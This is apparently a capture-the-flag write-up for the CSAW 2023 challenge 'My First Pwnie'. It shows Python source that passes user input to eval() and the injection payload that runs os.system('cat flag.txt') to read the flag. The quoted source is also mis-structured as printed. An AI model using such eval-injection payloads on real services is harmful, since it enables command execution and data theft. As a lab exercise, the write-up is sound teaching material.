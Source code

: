 
# My First Pwnie
We are given nc command and the python src file.
```
nc intro.csaw.io 31137
```
Here's a look at the output

![](https://github.com/0xNev/CTF-Writeups/blob/main/csaw23/my_first_pwnie/1.png?raw=true)


The program asks for a password, not sure what else so lets take a look the src file.
  
```python
try:
	response = eval(input("What's the password? "))
	print(f"You entered `{response}`")
if response == "password":
	print("Yay! Correct! Congrats!")
	quit()
except:
	pass

print("Nay, that's not it.")
```
The program is checking if the password is equal to 'password' and if so it quits the application.

It is important to notice that the input is being run on a eval, running eval on an input we control is dangerous.

By crafting a malicious input we could possibly gain control over the machine, so lets try that.

After some testing I got the following to work for me
```python
__import__("os").system("cat flag.txt")
```


![](https://github.com/0xNev/CTF-Writeups/blob/main/csaw23/my_first_pwnie/2.png?raw=true)

 
